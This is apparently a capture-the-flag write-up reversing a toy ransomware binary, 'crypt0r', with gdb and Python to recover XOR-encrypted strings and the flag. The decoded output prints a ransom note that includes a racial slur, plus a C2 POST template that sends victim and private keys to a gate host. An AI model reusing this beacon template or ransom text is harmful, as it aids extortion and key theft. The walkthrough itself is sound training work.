

     _Susumitsudukete sae ireba, osoku tomo kankei nai._


#Crypt0r 2
If you read the crypt0r part 1, you saw that we found a website hosting the flag. The evil .js file tries to download the crypt0r.exe file, but we hit a 404
page.

## Getting crypt0r
If you remember the js malware file, we had:
```
    X.open('GET', T + "?p=r&l=" + C, false);
    X.SetRequestHeader("User-Agent:", "Made by b4cc4rd1");
    X.send(A);
    return X.responsetext;
```

Th T is the URL, but you can see that this URL got options p and l, and a
very specific User-Agent.
We know that T equals to http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/crypt0r.exe , and C is the parameter of the Pt() function.
Pt() is called with that:
```
Pt(2565454484514854845487848, "kgjgepog=kfOIIIeeoezj==")
```
So we can build the requests and get, umh, something :)
```
In [6]: import requests

In [7]: hder={"User-agent": "Made by b4cc4rd1"}

In [8]: url='http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/crypt0r.exe?p
   ...: =r&l=2565454484514854845487848'

In [9]: r=requests.get(url=url,headers=hder)

In [10]: r.status_code
Out[10]: 200

In [11]: print r.text

    This is not the flag. Come on, win32 is so deprecated anyway!


                         _nnnn_                      
                        dGGGGMMb     ,"""""""""""""".
                       @p~qp~~qMb    | Linux Rules! |
                       M|@||@) M|   _;..............'
                       @,----.JM| -'
                      JS^\__/  qKL
                     dZP        qKRb
                    dZP          qKKb
                   fZP            SMMb
                   HZM            MMMM
                   FqM            MMMM
                 __| ".        |\dS"qML
                 |    `.       | `' \Zq
                _)      \.___.,|     .'
                \____   )MMMMMM|   .'
                     `-'       `--' 


In [12]: 
```

## Let's reverse
We quickly found the binaries in the http tree:
 

```
mitsurugi@dojo:~/chall/inshack/mails$ wget -q http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/dbg64/crypt0r.jessie
mitsurugi@dojo:~/chall/inshack/mails$ file crypt0r.jessie 
crypt0r.jessie: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e42b1b8bf05f766809dd687df766d4ea1fca6c58, stripped
mitsurugi@dojo:~/chall/inshack/mails$ ldd crypt0r.jessie 
	linux-vdso.so.1 (0x00007ffdd1ef7000)
	libssl.so.1.0.0 => not found             // WuT?
	libcrypto.so.1.0.0 => not found          // This is from the same package
	libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007fa0ef28a000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa0eeeec000)
	/lib64/ld-linux-x86-64.so.2 (0x0000561045029000)
mitsurugi@dojo:~/chall/inshack/mails$
```

Ok, apparently, I have a library problem. My crypto libs are way to recent
to launch this binary. With a very bash command line-fu we're done. We
download the old lib from debian website, then:
```
mitsurugi@dojo:~/chall/inshack/mails$ ls libssl1.0.0_1.0.1t-1+deb8u6_amd64.deb 
libssl1.0.0_1.0.1t-1+deb8u6_amd64.deb
mitsurugi@dojo:~/chall/inshack/mails$ ar x libssl1.0.0_1.0.1t-1+deb8u6_amd64.deb 
mitsurugi@dojo:~/chall/inshack/mails$ tar xf data.tar.xz 
mitsurugi@dojo:~/chall/inshack/mails$ export LD_LIBRARY_PATH=usr/lib/x86_64-linux-gnu/
mitsurugi@dojo:~/chall/inshack/mails$ ldd crypt0r.jessie
	linux-vdso.so.1 (0x00007ffc38df1000)
	libssl.so.1.0.0 => usr/lib/x86_64-linux-gnu/libssl.so.1.0.0 (0x00007fd804924000)
	libcrypto.so.1.0.0 => usr/lib/x86_64-linux-gnu/libcrypto.so.1.0.0 (0x00007fd804528000)
	libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007fd804205000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd803e67000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fd803c63000)
	/lib64/ld-linux-x86-64.so.2 (0x000055e1f1230000)
mitsurugi@dojo:~/chall/inshack/mails$
```
And let's run:
```
mitsurugi@dojo:~/chall/inshack/mails$ chmod +x crypt0r.jessie
mitsurugi@dojo:~/chall/inshack/mails$ ./crypt0r.jessie 
The file to encrypt has not been found.
mitsurugi@dojo:~/chall/inshack/mails$ strace -e trace=open ./crypt0r.jessie
(... snip all lines ...)
open("./crypt0r.jessie", O_RDONLY)      = 3
open("crypt.me", O_RDONLY)              = -1 ENOENT (No such file or directory)
The file to encrypt has not been found.
+++ exited with 1 +++
mitsurugi@dojo:~/chall/inshack/mails$ strings crypt0r.jessie | grep crypt.me
mitsurugi@dojo:~/chall/inshack/mails$
```

We learned important things (yes, really):
 * The binary open itself, we have to understand why
 * it tries to crypt a file named `crypt.me` but this string is nowhere in the binary

## Launch gdb (A challenge without assembly is not worth it)
Because the binary is stripped, we won't have any fuction names. Let's start to
find the main function, it's usually the last address pushed before the call
of __libc_start_main@plt right after the entry point.

We know that the binary will try to open itself. Let's see:
```
mitsurugi@dojo:~/chall/inshack/mails$ readelf -h crypt0r.jessie | grep 'Entry point'
  Entry point address:               0x401530
mitsurugi@dojo:~/chall/inshack/mails$ gdb -q crypt0r.jessie
Reading symbols from crypt0r.jessie...(no debugging symbols found)...done.
gdb$ x/15i 0x401530
   0x401530:	xor    %ebp,%ebp
   0x401532:	mov    %rdx,%r9
   0x401535:	pop    %rsi
   0x401536:	mov    %rsp,%rdx
   0x401539:	and    $0xfffffffffffffff0,%rsp
   0x40153d:	push   %rax
   0x40153e:	push   %rsp
   0x40153f:	mov    $0x4037f0,%r8
   0x401546:	mov    $0x403780,%rcx
   0x40154d:	mov    $0x403616,%rdi               //The main() probably
   0x401554:	callq  0x401260 <__libc_start_main@plt>
   0x401559:	hlt    
   0x40155a:	nopw   0x0(%rax,%rax,1)
   0x401560:	mov    $0x604717,%eax
   0x401565:	push   %rbp
gdb$ x/15i 0x403616
   0x403616:	push   %rbp
   0x403617:	mov    %rsp,%rbp
   0x40361a:	sub    $0x30,%rsp
   0x40361e:	mov    %edi,-0x24(%rbp)
   0x403621:	mov    %rsi,-0x30(%rbp)
   0x403625:	mov    -0x30(%rbp),%rax
   0x403629:	mov    (%rax),%rax
   0x40362c:	mov    %rax,%rdi
   0x40362f:	callq  0x40314e              //Interesting
   0x403634:	mov    %eax,-0x4(%rbp)
   0x403637:	cmpl   $0x0,-0x4(%rbp)       //compares to 0? 
   0x40363b:	jns    0x403651              //and if yes, jump, otherwise:
   0x40363d:	mov    $0x403bb8,%edi        //What here ?
   0x403642:	callq  0x401210 <puts@plt>
   0x403647:	mov    $0x2,%eax
gdb$ x/s 0x403bb8
0x403bb8:	"FATAL: Cannot read application strings."   //ok, so we lose here, let see the function
gdb$ x/25i 0x40314e                          //what's in this function?
   0x40314e:	push   %rbp
   0x40314f:	mov    %rsp,%rbp
   0x403152:	sub    $0x30,%rsp
   0x403156:	mov    %rdi,-0x28(%rbp)
   0x40315a:	mov    -0x28(%rbp),%rax
   0x40315e:	mov    $0x403b76,%esi
   0x403163:	mov    %rax,%rdi
   0x403166:	callq  0x401250 <fopen@plt>    //Seems good, is it opening itself?
   0x40316b:	mov    %rax,-0x8(%rbp)
   0x40316f:	mov    -0x8(%rbp),%rax
   0x403173:	mov    $0x2,%edx
   0x403178:	mov    $0x0,%esi
   0x40317d:	mov    %rax,%rdi
   0x403180:	callq  0x401220 <fseek@plt>
   0x403185:	mov    -0x8(%rbp),%rax
   0x403189:	mov    %rax,%rdi
   0x40318c:	callq  0x4011c0 <ftell@plt>
   0x403191:	sub    $0x8,%rax
   0x403195:	mov    %rax,-0x10(%rbp)
   0x403199:	mov    -0x10(%rbp),%rcx
   0x40319d:	mov    -0x8(%rbp),%rax
   0x4031a1:	mov    $0x0,%edx
   0x4031a6:	mov    %rcx,%rsi
   0x4031a9:	mov    %rax,%rdi
   0x4031ac:	callq  0x401220 <fseek@plt>
gdb$
```
We can safely assume we found the main(), and the function at 0x40314e
open a file. If the return code of this function fails, the program aborts
with a message "FATAL: Cannot read application strings.". We know that
the `crypt.me` string is not written in clear in the binary. We can 
imagine that the program is doing something like:
 * open the binary itself
 * read a binary blob
 * uncrypt this blob
 * get the needed string for the program such as file name, error strings, etc..

That's how some virus works. In order to slow down its analysis by 
reversers, they crypt all of their strings and decrypts it on the fly
when needed.

Time to continue:
```
gdb$ b * 0x403166
Breakpoint 1 at 0x403166
gdb$ r
Starting program: /home/mitsurugi/chall/inshack/mails/crypt0r.jessie 
-----------------------------------------------------------------------------------------------------------------------[regs]
  RAX: 0x00007FFFFFFFE4EB  RBX: 0x0000000000000000  RBP: 0x00007FFFFFFFE0F0  RSP: 0x00007FFFFFFFE0C0  o d I t s z a P c 
  RDI: 0x00007FFFFFFFE4EB  RSI: 0x0000000000403B76  RDX: 0x00007FFFFFFFE228  RCX: 0x0000000000000000  RIP: 0x0000000000403166
  R8 : 0x00000000004037F0  R9 : 0x00007FFFF7DE8A50  R10: 0x0000000000000848  R11: 0x00007FFFF70FA1C0  R12: 0x0000000000401530
  R13: 0x00007FFFFFFFE210  R14: 0x0000000000000000  R15: 0x0000000000000000
  CS: 0033  DS: 0000  ES: 0000  FS: 0000  GS: 0000  SS: 002B				
-----------------------------------------------------------------------------------------------------------------------[code]
=> 0x403166:	call   0x401250 <fopen@plt>
   0x40316b:	mov    QWORD PTR [rbp-0x8],rax
   0x40316f:	mov    rax,QWORD PTR [rbp-0x8]
   0x403173:	mov    edx,0x2
   0x403178:	mov    esi,0x0
   0x40317d:	mov    rdi,rax
   0x403180:	call   0x401220 <fseek@plt>
   0x403185:	mov    rax,QWORD PTR [rbp-0x8]
-----------------------------------------------------------------------------------------------------------------------------

Breakpoint 1, 0x0000000000403166 in ?? ()
gdb$ x/s 0x00007FFFFFFFE4EB
0x7fffffffe4eb:	"/home/mitsurugi/chall/inshack/mails/crypt0r.jessie"
gdb$ x/s 0x0000000000403B76
0x403b76:	"rb"
gdb$
```

Ok, this is good. I won't follow all instructions, but basically, the
assembly code take care of the size of the binary, get some data, fseek in
it, fread, ftell, fread, etc.. Let's break at the fread() function. fread
prototype is:
```
       size_t fread(void *ptr, size_t size, size_t nmemb, FILE *stream);
       The  function  fread()  reads nmemb items of data, each size bytes long, from the stream pointed to by stream, storing them at the location given by ptr.
```
Let's get back to gdb:
gdb$ b * 0x4031c9
Breakpoint 2 at 0x4031c9
gdb$ b * 0x403239
Breakpoint 3 at 0x403239
gdb$
```
The first fread reads 8 bytes, but I don't know what it does with it. The
second fread is really more intersting:
```
gdb$ c
Continuing.
-----------------------------------------------------------------------------------------------------------------------[regs]
  RAX: 0x0000000000606250  RBX: 0x0000000000000000  RBP: 0x00007FFFFFFFE0F0  RSP: 0x00007FFFFFFFE0C0  o d I t s z a p c 
  RDI: 0x0000000000606250  RSI: 0x00000000000003D2  RDX: 0x0000000000000001  RCX: 0x0000000000605010  RIP: 0x0000000000403239
  R8 : 0x0000000000000003  R9 : 0x00000000000003E0  R10: 0x00000000000004A1  R11: 0x00007FFFF7154D30  R12: 0x0000000000401530
  R13: 0x00007FFFFFFFE210  R14: 0x0000000000000000  R15: 0x0000000000000000 CS: 0033  DS: 0000  ES: 0000  FS: 0000  GS: 0000  SS: 002B
				
-----------------------------------------------------------------------------------------------------------------------[code]
=> 0x403239:	call   0x401370 <fread@plt>
   0x40323e:	mov    rax,QWORD PTR [rip+0x20151b]        # 0x604760
   0x403245:	mov    rdx,QWORD PTR [rip+0x20151c]        # 0x604768
   0x40324c:	sub    rdx,0x1
   0x403250:	add    rax,rdx
   0x403253:	mov    BYTE PTR [rax],0x0
   0x403256:	mov    rax,QWORD PTR [rbp-0x8]
   0x40325a:	mov    rdi,rax
-----------------------------------------------------------------------------------------------------------------------------

Breakpoint 3, 0x0000000000403239 in ?? ()
gdb$ stepo
```

It reads 0x3d2 bytes from the file and stores them. It could be the blob I 
was talking about, we have to save it for future use.
```
gdb$ dump memory blob 0x0000000000606250 0x0000000000606250+0x3d2
gdb$
```

Let's continue. If we were right, we know that this blob will soon be 
decrypted because the program have to fopen the "crypt.me" file and
the "crypt.me" string is to be decrypted inside the blob.

Let's follow the function call to see if we found something which could be
interesting. (When you play CTF, you can jump and break until you found the `crypt.me`
string in a register, then replay back the binary, until finding things by
trial and error. )
```
gdb$ x/10i $rip
=> 0x403634:	mov    DWORD PTR [rbp-0x4],eax
   0x403637:	cmp    DWORD PTR [rbp-0x4],0x0
   0x40363b:	jns    0x403651                //we'll go there
   0x40363d:	mov    edi,0x403bb8          
   0x403642:	call   0x401210 <puts@plt>
   0x403647:	mov    eax,0x2
   0x40364c:	jmp    0x403774
   0x403651:	mov    eax,0x0                 //ok
   0x403656:	call   0x4033e9                //a call, let's follow it
   0x40365b:	mov    QWORD PTR [rbp-0x10],rax
gdb$ x/10i 0x4033e9                            //let see
   0x4033e9:	push   rbp
   0x4033ea:	mov    rbp,rsp
   0x4033ed:	sub    rsp,0x10
   0x4033f1:	mov    eax,0x0
   0x4033f6:	call   0x40337d                 //another call to follow
   0x4033fb:	mov    QWORD PTR [rbp-0x8],rax
   0x4033ff:	cmp    QWORD PTR [rbp-0x8],0x0
   0x403404:	jne    0x403410
   0x403406:	mov    eax,0x0
   0x40340b:	jmp    0x4034c7
gdb$ x/10i 0x40337d                             //let go there
   0x40337d:	push   rbp
   0x40337e:	mov    rbp,rsp
   0x403381:	sub    rsp,0x10
   0x403385:	mov    eax,0x0
   0x40338a:	call   0x403309                 //this one
   0x40338f:	mov    edi,0x8
   0x403394:	call   0x40327e                 //and this one
   0x403399:	mov    esi,0x403b80  
   0x40339e:	mov    rdi,rax
   0x4033a1:	call   0x401250 <fopen@plt>     //ok, it could be the "crypt.me" fopening
gdb$
```

We can go through the binary until 0x40338a and 0x403394. The function
in 0x403309 is really interesting:
 * It's a leaf function, it doesn't call any other function
 * It's called a lot of time (objdump -d crypt0r.jessie | grep 'callq  403309' | wc -l : 9 times!)
 * It's a good candidate for the decryption function we search

I put some formatting to better understand it:
```
gdb$ x/45i 0x403309
   0x403309:	push   rbp
   0x40330a:	mov    rbp,rsp
   0x40330d:	mov    QWORD PTR [rbp-0x8],0x0
   0x403315:	jmp    0x40335e

     0x403317:	mov    rdx,QWORD PTR [rip+0x201442]        # 0x604760 //We have 0x606250 here...
                                                                      //yup, the data blob :)
     0x40331e:	mov    rax,QWORD PTR [rbp-0x8]
     0x403322:	lea    rcx,[rdx+rax*1]                                //and we load it
     0x403326:	mov    rdx,QWORD PTR [rip+0x201433]        # 0x604760
     0x40332d:	mov    rax,QWORD PTR [rbp-0x8]                        //let's load it
     0x403331:	add    rax,rdx                                        //increment
     0x403334:	movzx  esi,BYTE PTR [rax]                             //get the byte

     0x403337:	mov    eax,0xc                                        //0xC?? interesting
     0x40333c:	movzx  edi,ax                                         
     0x40333f:	mov    rax,QWORD PTR [rbp-0x8]
     0x403343:	mov    edx,0x0
     0x403348:	div    rdi                                            //division by 0xC
     0x40334b:	mov    rax,rdx
     0x40334e:	movzx  eax,BYTE PTR [rax+0x403b68]                    //All this for doing a
                                                                      //get byte[i % 0xC]

     0x403355:	xor    eax,esi                        //An XOR !! between the blob and 0x403b68
     0x403357:	mov    BYTE PTR [rcx],al
     0x403359:	add    QWORD PTR [rbp-0x8],0x1
     0x40335e:	mov    rax,QWORD PTR [rip+0x201403]        # 0x604768

   0x403365:	cmp    QWORD PTR [rbp-0x8],rax
   0x403369:	jb     0x403317
   0x40336b:	pop    rbp
   0x40336c:	ret    
```

It may be not clear at first sight, but we can understand that we have
an XOR made between the blob and a "key" located at 0x403b68. The one
at 0x403b68 is 0xc long. In short, this is:
`cleartext = blob[i] ^ key[i  % 0xc]`

So, time to get this key:
```
gdb$ x/12c 0x403b68
0x403b68:	0xb4	0xbe	0x15	0x50	0x40	0x7f	0x1	0x53
0x403b70:	0xfa	0xc0	0xfe	0x17
```

That's interesting. What if we try to un-xor the blob with this key? We could see
all the strings in clear text. Reading strings of a program can tell a lot from
what it's doing.

## That's it!
Some lines of python solves it:
```
In [4]: key='\xb4\xbe\x15\x50\x40\x7f\x01\x53\xfa\xc0\xfe\x17'

In [5]: f=open("blob","rb")

In [6]: data=f.read()

In [7]: f.close()

In [8]: clear=''
   ...: for i in range(len(data)):
   ...:     c=chr(ord(data[i]) ^ ord(key[i%0xc]))
   ...:     clear=clear+c
   ...:     

In [9]: print clear
The file to encrypt has not been found.
65537Oh oh oh... something went wrong.
INSAd64f428d49e137f68198597ea46d36dfcnc.challenge-by.ovhPOST /gate.php HTTP/1.1
User-Agent: Crypt0r
Host: crypt0r.gate
Content-Type: application/json

{
    "pigeonID": "%s",
    "privateKey": "%s",
    "crypt0rKey": "%s"
  }      ____                  _    ___       
     / ___|_ __ _   _ _ __ | |_ / _ \ _ __ 
    | |   | '__| | | | '_ \| __| | | | '__|
    | |___| |  | |_| | |_) | |_| |_| | |   
     \____|_|   \__, | .__/ \__|\___/|_|   
                |___/|_|                   


   !!  You've been Crypt0riz3d nigga  !!

Send 50 bitcoins on my wallet to get back
your file and send me the following code:
                 %s

If you don't, in 7 days it's gonna be 100.

Your file has been encrypted using RSA
algorithm, only my decrypt0r can give you
the file back.

~~~ Cyber Super Villain of the Darknet ~~~

crypt.medecrypt.me{
  "action": "%s",
  "data": %s}
null


In [10]:
```

## FLAG
We can quickly flag with INSAd64f428d49e137f68198597ea46d36df and fly to Crypt0R part 3 \o/
